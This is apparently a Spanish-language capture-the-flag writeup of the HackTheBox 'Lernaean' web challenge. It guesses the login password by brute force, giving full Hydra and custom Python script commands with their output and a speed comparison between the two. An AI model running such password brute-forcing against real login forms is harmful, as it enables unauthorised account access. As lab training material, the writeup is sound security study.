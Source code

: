 ```yaml
---
title: Lernaean Writeup HackTheBox Web Challenge
description: 
date: 2019-11-28
lastmod: 2019-11-28
slug: lernaean-writeup-hackthebox-web-challenge
image: "covers/draft.png"
tags:
  - hackthebox
  - writeup
  - web
  - bruteforce
  - hydra
  - http
  - burp
categories:
  - HTB
---
```



La descripción del reto es la siguiente:

_Your target is not very good with computers. Try and guess their password to see if they may be hiding anything!_


Con esta descripción podemos entender que podemos adivinar la contraseña, por lo que debería de estar en un diccionario de las contraseñas mas utilizadas. Por este motivo se realizará un ataque de fuerza bruta, para realizarlo podemos usar tres herramientas diferentes: Hydra, Burp Suite y un script propio.



![Login](/images/2019/lernaean_login.png){:height="auto" width="100%"}

Si analizamos la web se puede ver que solo es necesario introducir la contraseña, lo que hará que el ataque por fuerza bruta menos costoso en tiempo de ejecución. Si analizamos la petición que se realiza con el login, ya sea con Burp, Wireshark o el propio navegador vemos que unicamente se envía el campo _password_ y como respuesta recibimos la misma web pero con un _Invalid password!_.


Si se realiza el ataque con Hydra, sería necesario indicar los siguientes argumentos:

```bash
hydra -l admin -P 10-million-password-list-top-10000.txt docker.hackthebox.eu http-post-form "/:password=^PASS^:Invalid password!" -s 32345
```


Con lo que obtendríamos una salida similar a esta indicando que la contraseña es _leonardo_.

```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-11-28 15:17:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10000 login tries (l:1/p:10000), ~625 tries per task
[DATA] attacking http-post-form://docker.hackthebox.eu:32345/:password=^PASS^:Invalid password!
[STATUS] 788.00 tries/min, 788 tries in 00:01h, 9212 to do in 00:12h, 16 active
[32345][http-post-form] host: docker.hackthebox.eu   login: admin   password: leonardo
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-11-28 15:19:42
```

Si se realiza el ataque con el script propio, que puede encontrase en el siguiente [repositorio][async]



[async]: https://github.com/procamora/Pentesting/blob/master/bruteforce_post_async.py



```bash
python3 bruteforce_post_async.py  http://docker.hackthebox.eu:31658/ 'Invalid password!' -l admin -P 10-million-password-list-top-10000.txt -j '{"password":""}' -v
```

Se obtendría la siguiente salida:


```
  DEBUG - bruteforce_post_async - bound_fetch - Trying 1395/10001: user: "admin", pass: "lancer" -> Fail
  DEBUG - bruteforce_post_async - bound_fetch - Trying 1401/10001: user: "admin", pass: "siemens" -> Fail
  DEBUG - bruteforce_post_async - bound_fetch - Trying 1403/10001: user: "admin", pass: "minnie" -> Fail
  DEBUG - bruteforce_post_async - check_regex_response - EXITO
  WARNING - bruteforce_post_async - bound_fetch - Trying 1404/10001: user: "admin", pass: "leonardo" -> Success
```


Si introducimos como contraseña _leonardo_ en el login vemos que nos muestra la siguiente pantalla:

![Correct](/images/2019/lernaean_correct.png){:height="auto" width="100%"}


Parece que algo no estamos viendo, por eso volvemos a realizar el proceso de login pero en esta ocasión capturamos todos los paquetes que recibimos, ya sea con Burp, Wireshark o el navegador, y veríamos que en la respuesta el POST con el login viene el flag que buscamos, como podemos ver a continuación:



![Response](/images/2019/lernaean_response.png){:height="auto" width="100%"}



Cabe destacar que se ha calculado los tiempos de ejecución para ambos y han sido los siguientes:


- Tiempo de ejecución de hydra: 1m33,668s
- Tiempo de ejecución de script: 0m4,643s


Esto se debe a que mi script manda peticiones asíncronas en bloques de 1000. Posiblemente Hydra también se pueda configurar para que aumente las conexiones paralelas, pero en esta ocasión se han dejado por defecto.
